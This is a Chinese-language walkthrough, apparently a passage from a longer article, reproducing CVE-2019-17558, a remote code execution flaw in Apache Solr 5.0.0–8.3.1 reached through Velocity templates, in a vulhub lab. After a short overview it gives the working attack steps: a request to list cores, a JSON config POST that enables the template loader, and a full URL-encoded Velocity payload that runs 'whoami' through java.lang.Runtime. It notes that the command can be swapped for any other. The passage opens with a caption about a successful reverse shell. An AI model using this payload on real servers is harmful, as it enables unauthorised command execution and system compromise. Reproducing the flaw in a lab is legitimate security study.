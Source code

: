 成功反弹 shell

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDBbVs0l4IFsptHOgpXLfr0YOhZqWSRqYp8FgV2TolGGUnQIgHvQQAYP74ickPFUrv4cxsJ100b4nGw/640?wx_fmt=png)

**CVE-2019-17558 远程命令执行漏洞**

**漏洞概述**

Solr 是 Apache Lucene 项目的开源企业搜索平台。其主要功能包括全文检索、命中标示、分面搜索、动态聚类、数据库集成，以及富文本的处理  
Apache Solr 5.0.0 版本至 8.3.1 版本中存在输入验证错误漏洞。攻击者可借助 Velocity 模板利用该漏洞在系统上执行任意代码。

****漏洞影响版本****

Apache Solr 5.0.0 ~8.3.1

**漏洞复现**

1. 访问漏洞环境 ip:8983

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDBbVs0l4IFsptHOgpXLfr0Y7kibofibKb0lGjTziamUnniaB1v7H4d0b7RibDdQ6dCI8nljfnNme9iaFblw/640?wx_fmt=png)

2. 默认情况下 params.resource.loader.enabled 配置未打开，无法使用自定义模板。我们先通过如下 API 获取所有的核心。可以先通过如下 API 获取所有的核心 (在 vulhub 中核心就是 demo)  

```
http://your-ip:8983/solr/admin/cores?indexInfo=false&wt=json
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDBbVs0l4IFsptHOgpXLfr0YmURT2dPrI2FPcqdecGAQ4auglXW7QiambjDOhD6WUBic5lgHVmibx1uww/640?wx_fmt=png)

3. 启用配置 params.resource.loader.enabled ，在 url 访问 / solr/demo/config 使用 Burp 抓包改成 POST 然后修改启动配置 (然后把 Content-Type 修改成 application/json）

**后边路径如下：/solr / 获取的内核名称 / config**

```
{
  "update-queryresponsewriter": {
    "startup": "lazy",
    "name": "velocity",
    "class": "solr.VelocityResponseWriter",
    "template.base.dir": "",
    "solr.resource.loader.enabled": "true", 
    "params.resource.loader.enabled": "true"
  }
}
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDBbVs0l4IFsptHOgpXLfr0YpUtvAibF36oiaC004iaicJOc4VQjUQvd61GesNvliaibksNMmp6RYESQcDaw/640?wx_fmt=png)

4. 通过 Velocity 模板执行命令，如 whoami。修改 exec(%27whoami%27) 中的代码即可更改命令。使用如下命令

```
http://ip:8983/solr/demo/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27whoami%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end
```
